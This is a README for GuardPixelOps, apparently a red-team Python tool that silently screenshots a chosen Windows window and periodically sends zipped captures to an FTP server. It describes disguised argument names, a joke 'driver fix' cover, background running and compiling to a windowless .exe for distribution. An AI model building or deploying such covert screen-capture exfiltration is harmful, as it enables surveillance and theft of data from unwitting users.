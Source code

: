 

### GuardPixelOps 🖥️🛡️

## Overview
GuardPixelOps is a powerful tool designed for Red Team operations and adversary simulations. This Python script focuses on Windows environments, specifically addressing issues sending screenshots. The tool offers functionalities for capturing screenshots and insecurely sending logs to a designated FTP server.

### Important Note: Encoding Information in Base64

Before using GuardPixelOps, please ensure that you encode the following information in Base64 format for the respective command-line arguments:

- `--winupdate`: Microsoft Relay Information
- `--wintoken`: Windows Token
- `--winversion`: Windows Version

Here's an example of how to encode information in Base64 using Python:

```bash
echo -n "your_information_here" | base64
```
Here's an example of how to encode information in Base64 using Powershell:

```bash
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("your_information_here"))
```

## Features
- **Automated Driver Fixes:** GuardPixelOps identifies and fixes broken drivers in the Windows environment. OF COURSE NOT! This is a joke!
- **Screenshot Capture:** The tool captures screenshots of the active window when a broken driver is detected, providing visual context for analysis. (You kidding me?! It takes screenshots based on the active Window!)
- **Secure Log Transmission:** Logs containing information are insecurely compressed and sent to a specified FTP server for analysis.
- **Background Operation:** GuardPixelOps operates silently in the background, periodically sending logs at regular intervals.

## How It Works
1. **Screenshot Grabbing:** Monitors the active window and captures screenshots when a specified window title is detected. The tool then saves the screenshots and logs the fixed driver information.
2. **Log Transmission:** Compresses the fixed driver logs into a zip file and securely transmits them to a designated FTP server for further analysis.
3. **Background Operation:** Runs as a background process, automatically sending logs at regular intervals.

## Usage
To use GuardPixelOps, provide the following command-line arguments:
- `--winupdate`: FTP Relay information. BASE64 Encoded! 🖥️
- `--wintoken`: Authentication User. BASE64 Encoded! 🖥️
- `--winversion`: Credentials. BASE64 Encoded! 🖥️
- `--regger`: Desired Window name. Plain Text

### Example Command:
```bash
python guardpixelops.py --winupdate <FTP_Relay_information> --wintoken <Authentication_User> --winversion <Credentials> --regger <Desired_Window_name>
```

## Setup
1. Clone the repository: `git clone https://github.com/your-username/guardpixelops.git`
2. Install dependencies: `pip install -r requirements.txt`
3. Run the script: `python guardpixelops.py`

### Compiling to .exe

To enhance portability and simplify distribution, you can compile GuardPixelOps into a standalone executable (.exe) file using [PyInstaller](https://www.pyinstaller.org/).

Ensure you have PyInstaller installed:

```bash
pip install pyinstaller
```

Navigate to the directory containing guardpixelops.py and run the following command in the command prompt:
```bash
pyinstaller --clean -w -F -i NONE "guardpixelops.py" --noconsole
```
Now, you can distribute and run GuardPixelOps as a standalone executable without requiring Python or additional dependencies.

## Disclaimer
GuardPixelOps is intended for educational and research purposes only. Users are responsible for complying with applicable laws and regulations.


Feel free to contribute to the project by opening issues or submitting pull requests!

👾 Happy Red Teaming with GuardPixelOps! 👾
